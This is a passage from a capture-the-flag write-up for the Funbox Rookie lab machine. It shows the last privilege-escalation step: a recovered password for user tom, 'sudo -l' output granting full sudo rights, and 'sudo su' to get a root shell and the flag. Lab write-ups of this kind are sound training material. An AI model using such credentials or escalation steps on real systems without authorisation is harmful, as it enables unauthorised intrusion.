 Tried running "sudo -l" and used the "xx11yy22!" password for tom.  
Discovered that tom can run any commands as root:  
`sudo -l`
>[sudo] password for tom:  
Matching Defaults entries for tom on funbox2:  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
>  
User tom may run the following commands on funbox2:  
    (ALL : ALL) ALL  

Ran the following to start a shell running as root:  
`sudo su`

See below screenshot of the root shell and flag:  
![Funbox Rookie Flag](images/funboxrookie_flag_root.png)
